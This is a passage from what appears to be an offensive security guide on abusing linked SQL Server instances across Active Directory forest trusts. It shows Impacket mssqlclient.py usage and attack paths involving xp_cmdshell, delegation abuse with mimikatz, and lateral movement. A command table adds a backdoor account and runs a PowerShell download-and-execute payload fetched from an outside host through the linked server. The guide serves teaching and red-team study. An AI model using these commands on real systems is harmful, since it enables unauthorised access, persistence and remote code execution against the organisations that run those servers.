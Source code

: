 Once set up, you can point SQL management tools (e.g., SQL Server Management Studio) to `localhost:<Local Port>` to interact with the remote SQL instance.

#### **Impacket `mssqlclient.py` Usage**

Impacket's `mssqlclient.py` is useful for enumerating SQL servers and executing commands. You can connect to the SQL server in the trusted domain and begin enumerating linked servers as shown below.

```bash
mssqlclient.py domain/user@remote-sql-server -windows-auth
# Enumerate linked servers
EXEC sp_linkedservers;
# Query linked server
SELECT * FROM OPENQUERY([linked_server], 'SELECT name FROM sys.databases');
```

---

### Potential Attack Paths in Forest Trusts
1. **Privilege Escalation via Linked Servers**:
   - **Scenario**: You compromise a SQL server in one forest that is linked to another forest's SQL server.
   - **Action**: Use linked server functionality (`OPENQUERY`, `xp_cmdshell`) to escalate privileges across the trust boundary.

2. **Abuse of Delegation**:
   - **Scenario**: The linked server uses unconstrained delegation, allowing impersonation of privileged accounts.
   - **Action**: Leverage `GetST` or `mimikatz` to obtain a TGT and impersonate users for cross-forest attacks.

3. **Lateral Movement**:
   - **Scenario**: A linked server in a trusted forest has misconfigured permissions.
   - **Action**: Execute arbitrary code using linked server `rpc` capabilities to move laterally between forests.

---

### Table 3: Common Enumeration and Attack Commands via Linked SQL Servers

| **Command**                                                | **Purpose**                                                        |
|------------------------------------------------------------|--------------------------------------------------------------------|
| `EXEC('whoami') AT [linked_server]`                        | Execute command on linked server                                   |
| `EXEC('xp_cmdshell ''net user /add hacker hacker123''') AT [linked_server]` | Add a user on the linked server                                    |
| `SELECT * FROM OPENQUERY([linked_server], 'SELECT name FROM sys.databases');` | List databases on the linked server                                |
| `EXEC('sp_linkedservers') AT [linked_server];`             | List linked servers on the remote linked server                    |
| `EXEC('xp_cmdshell ''powershell IEX (New-Object Net.WebClient).DownloadString(''http://192.168.1.100/payload.ps1'')''') AT [linked_server];` | Execute PowerShell payload through linked server using `xp_cmdshell` |

---
